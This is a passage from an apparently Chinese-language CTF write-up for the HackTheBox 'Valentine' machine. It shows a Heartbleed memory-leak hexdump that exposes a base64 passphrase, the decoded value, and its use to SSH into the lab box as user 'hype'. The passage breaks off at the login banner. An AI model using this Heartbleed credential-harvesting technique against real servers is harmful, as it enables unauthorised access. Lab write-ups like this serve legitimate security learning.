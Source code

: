   0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D BA  mV0aGVoeXBlCg==.
  0160: 2C 28 70 21 7E 17 2B EC 7F CA 55 3C B7 FE 2F DD  ,(p!~.+...U<../.
  0170: 1E BA 3F 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ..?.............
  0180: 33 A4 44 73 F1 0F 07 E1 40 EB 91 80 94 08 36 6D  3.Ds....@.....6m
  0190: 24 71 8B 74 B1 2A CE 3F 5A FE 19 00 17 00 41 04  $q.t.*.?Z.....A.
  01a0: C7 0A 0A 7D 0F 97 67 BA A1 27 AD EA CD 6D 11 B4  ...}..g..'...m..
  01b0: E9 4D 50 4A BB 4B 21 BE 5F ED A9 58 F1 30 5C 43  .MPJ.K!._..X.0\C
  01c0: 45 64 D3 F3 84 96 B3 85 EC B9 58 C4 38 40 7C D2  Ed........X.8@|.
  01d0: E5 26 4E FE D8 22 E3 BF 68 ED 9D 42 AF 92 2E 26  .&N.."..h..B...&
  01e0: 00 2B 00 09 08 03 04 03 03 03 02 03 01 00 0D 00  .+..............
  01f0: 18 00 16 04 03 05 03 06 03 08 04 08 05 08 06 04  ................
  0200: 01 05 01 06 01 02 03 02 01 00 2D 00 02 01 01 00  ..........-.....
  0210: 1C 00 02 40 01 00 00 00 00 00 00 00 00 00 00 00  ...@............
  0220: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0230: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0240: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0270: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0280: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0290: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  02a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

留意泄露了一串base64加密的内容：```aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==```

拿到web上解密，得到明文：
```
Your input:

aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==

Your encoded input:

heartbleedbelievethehype 
```

# 初始shell

现在用```heartbleedbelievethehype```作为ssh秘钥登录靶机
```
┌──(root💀kali)-[~/htb/Valentine]
└─# ssh -i id_rsa hype@10.10.10.79
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

